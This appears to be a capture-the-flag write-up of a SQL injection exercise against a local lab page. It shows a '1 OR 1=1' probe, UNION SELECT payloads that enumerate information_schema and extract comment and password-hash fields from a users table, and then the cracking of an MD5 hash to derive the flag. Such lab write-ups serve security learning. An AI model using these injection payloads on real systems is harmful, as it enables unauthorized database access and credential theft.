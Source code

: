 When navigating to the Members page http://localhost:8080/index.php?page=member we are met with an input field.

We can try to send `1 OR 1=1` to check if we could do an SQL Injection attack, and we see that we can indeed proceed when this is returned on the page:

```
ID: 1 OR 1=1 
First name: one
Surname : me

ID: 1 OR 1=1 
First name: two
Surname : me

ID: 1 OR 1=1 
First name: three
Surname : me

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
```

Now that we know that it is vulnerable let's try getting some more information about the database:

`1 UNION SELECT table_name,column_name FROM information_schema.columns WHERE table_schema=database() --`

This shows us that there are multiple columns that we can look into. Upon further research, we spot a user named `Flag` and we try to find his ID: 

`1 UNION SELECT user_id, first_name FROM users --`

We are now going to try to find some informations in the `Commentaire` and `countersign` columns: 

`1 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5 --`

This gives us another hint:

```
ID: 1 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5 -- 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Let's fllow the instructions:
 - Trying to decode `5ff9d0165b4f92b14994e5c685cdce28` we find that it's MD5 and decrypted we get `FortyTwo`
 - Lower all the chars -> `fortytwo`
 - SH256 on it -> `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

 Here is our flag !